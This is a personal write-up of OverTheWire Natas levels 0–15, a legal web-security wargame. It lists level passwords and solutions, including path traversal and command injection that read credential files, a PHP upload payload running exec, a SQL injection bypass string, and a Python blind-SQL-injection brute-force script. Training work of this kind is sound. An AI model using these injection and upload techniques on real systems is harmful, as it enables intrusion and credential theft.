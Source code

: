 ﻿**OVERTHEWIRE:NATAS**

**LEVEL 0 -> Level 15 Writeups**

**Rohith Varma.**

**https://overthewire.org/wargames/natas/**

**Natas-0**

\*Found the password for natas1 in the source page.

<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->

**Natas-1**

\*Found the password by accessing the page source from developer tools in chrome.

<!--The password for natas2 is h4ubbcXrWqs To7GGnnUMLppXb0ogfBZ7--!>

**Natas-2**

\*Got the password in users.txt file which is present inside the files directory of the website 

Password:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

**Natas-3**

\*The hidden directory was identified by using /robots.txt.

Password:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

**Natas-4:**

\*Changed the default referrer by using the referrer controller.

Password:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

**Natas-5**

\*Login credentials were saved in browsers as cookies so changed the cookie and got the access.

Password:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

**Natas-6:**

\*Checked the php code and found the secret code by traversing by adding includes/secret.inc

Secret:FOEIUWGHFEEUHOFUOIU

Password:jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

**Natas-7**

\* Traversed through the /etc files by: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas\_webpass/natas8

Password:a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

**Natas-8**

\*Decoded the encoded secret by using this function:

function decodeSecret($encoded) 

{ return base64\_decode(strrev(hex2bin($encoded)));

}

PasswordSda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

**Natas-9**

\*The vulnerability here there is passthru the key I entered  ; cat /etc/natas\_webpass/natas10 # to access the file and display the password.

Password:D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

**Natas-10**

Here there is a filter applied so I used . /etc/natas\_webpass/natas11 # here .\* searches for the files that have the path mentioned.

Password:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

**Natas-11**

\*After going through the source code we need to set the showpass to yes in order to view the pass.

\*XOR encrypt has a key by which it encrypts so to know the key I used a online code which I got while surfing google.

\*Changed the cookie to MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz

Password:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

**Natas-12**

\*Created a .php file with the following command in it 

<?php echo exec("cat /etc/natas\_webpass/natas14"); ?>

Used burp suite and changed the file that opened from .jpg to .php and accessed the natas14 file for the pass

Password:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

**Natas-13**

\*Learned that the website identifies the jpg by the first four bits of hexadecimal code.

\*Used hexeditor to change the first 4 bytes and then uploaded the file.

\*Intercepted the upload using burpsuite and then changed the input to php.

Password:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

**Natas-14:**

\*Learnt about SQL injection and then accessed it using 

username=1" OR “TEST” = “TEST”&password=”1" OR “TEST” = “TEST

which makes it true and shows the password.

**Natas-15:**

\*From source code we can know that the pass is stored in users relation which has username and password as columns.

\*So used SQL injection by running an py code.

—---------------—-------------------------------------------------------------------------------------

#!/usr/bin/env python

\# -\* coding: utf-8 --

import requests

import re

from string import ascii\_lowercase, ascii\_uppercase, digits

characters = ascii\_lowercase + ascii\_uppercase + digits

print(characters)

username = 'natas15'

password = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'

url = 'http://natas15.natas.labs.overthewire.org/'

session = requests.Session()

seen\_password = list()

while True:

`    `for ch in characters:

`        `print("trying with pass", "".join(seen\_password) + ch)

`        `response = session.post(url, data={"username": 'natas16" AND BINARY password LIKE \'' + "".join(seen\_password) + ch + '%\' #'}, auth=(username, password))

`        `content = response.text

`        `if 'user exists' in content:

`            `seen\_password.append(ch)

`            `break

—------------------------------------------------------------------------------------------------------------

Password:RD7iZrd5gATjj9PkPEuaOlfEjHqj32V

